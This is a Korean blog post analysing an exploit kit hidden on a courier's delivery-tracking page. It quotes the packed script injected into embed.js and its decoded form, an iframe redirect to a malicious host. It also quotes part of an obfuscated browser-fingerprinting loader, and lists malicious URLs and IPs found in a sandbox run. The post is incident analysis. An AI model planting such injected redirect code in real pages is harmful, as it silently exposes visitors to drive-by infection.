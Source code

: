 ```yaml
---
layout: post
title: "The Long Goodbye"
date: 2013-08-29 23:58
comments: true
categories: 
---
```


EK 가 설치되어 있는 사이트.

G마켓 자체 페이지는 아니고, 배송조회하면 연결되는 택배회사의 배송조회 페이지.

    URL: hxxp://www.yellowcap.co.kr/custom/inquiry_result.asp?INVOICE_NO=81800192001

페이지 소스를 보니,

    <script type="text/javascript" language="javascript" src="/common/js/embed.js"></script>

로 embed.js 를 땡기고 있었다.

embed.js 를 보니, 마지막에 다음과 같은 redirection code 가 들어있었다.

    eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};
    if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];
    e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}
    return p}('d(3.7.c(\'4=\')==-1){e 2=f h();2.g(2.i()+b*5*5*8);3.7=\'4=9;a=/;2=\'+2.j();
    3.p("<6 s=r://u.w/v/t/q/l.k m=n o=0></6>")}',33,33,
    '||expires|document|hsblm|60|iframe|cookie|1000|Yes|path|12|indexOf|if|var|new|setTime|Date|getTime|
    toGMTString|html|ye|width|100|height|write|pop|http|src|goods|dangguro|upload|com'.split('|'),0,{}))

난독화 해제를 했더니,

    if (document.cookie.indexOf('hsblm=') == -1) {
        var expires = new Date();
        expires.setTime(expires.getTime() + 12 * 60 * 60 * 1000);
        document.cookie = 'hsblm=Yes;path=/;expires=' + expires.toGMTString();
        document.write("<iframe src=http://dangguro.com/upload/goods/pop/ye.html width=100 height=0></iframe>")
    }

로 dangguro.com 으로 traffic 을 돌리는 iframe 을 삽입한다.

    URL: hxxp://dangguro.com/upload/goods/pop/ye.html

ye.html 을 봤더니 

    <iframe src=http://www.zzizile.net//data/geditor/1307/pop/index.html width='1' height='1'></iframe>

로 다시 redirect 한다.

    URL: hxxp://www.zzizile.net//data/geditor/1307/pop/index.html

www.zzizile.net 을 따라가 보았다.

    <script language="javascript" src="http://count5.51yes.com/click.aspx?id=52194144&logo=1" charset="gb2312"></script>
    <script type="text/javascript" src="swfobject.js"></script>
    <script src=jpg.js></script>
    <script type="text/javascript">
    var tmoRu2=navigator.userAgent.toLowerCase();
    var NOmT2="1"+"1"+"1";
    if(document.cookie.indexOf("YCAo6=")==-1 && tmoRu2.indexOf("linux")<=-1 && tmoRu2.indexOf("bot")==-1 && tmoRu2.indexOf("spider")==-1)
    {
    var VJhjJoY8=deconcept.SWFObjectUtil.getPlayerVersion();
    var expires=new Date();
    expires.setTime(expires.getTime()+24*60*60*1000);
    NOmT2="0"+"0";
    document.cookie="YCAo6=Yes;path=/;expires="+expires.toGMTString();
    if(document.location.hostname.length>0){pimOD5="1"+"1";delete pimOD5;try{pimOD5+=
    "0"+"0"+"0"+"0"+"0"+"0"+"0"+"0"+"0"+"0";}catch(e){var IzhH1="1";AMJP8 = eval}mOQyUG8=unescape;}
    gROR3="3C7F265941303D6B32471514405B3D4439482417BE6D1343C4453A0FA317510ABF19510EAB045234FF580122B3
    421825FB560261C0511620C225542CD621EE38DA24E031C763FE11DE25E84F9969F319817BBC54CE57EF12B541FA18A501C01FB654
    ...

로 시작하는 heavily obfuscated 된 자바스크립트가 나온다.

swfobject.js 가 있는 것으로 봐서, 여기서부터 Browser fingerprinting 을 해서, 취약한 부분을 찾아내,
적절한 공격을 하는 것으로 보인다.

일단 이 화일을 VirusTotal 에 올려보았다.

45 개의 Anti-virus 엔진중에서 19 개가 악성으로 판정하였다. 국산 엔진들은 잡아내지 못했다.

McAfee 는 JS/Exploit-Godakit.a 라고 판정하고 BitDefender 는 JS:Exploit.BlackHole.AL 이라고 판정하였다.

사용된 화일로 봐서는, Gong Da 가 맞다.

Sandbox 에 넣고 돌렸다.

튀어나오는 URL 들은 

    http://www.uthkorea.com

    http://www.monggus.com

    http://count18.51yes.com

    http://211.43.212.192

    http://101.79.5.31

이다. count18.51yes.com 은 China Telecom Jiangsu 라는 업체에서 호스팅하고 있다.
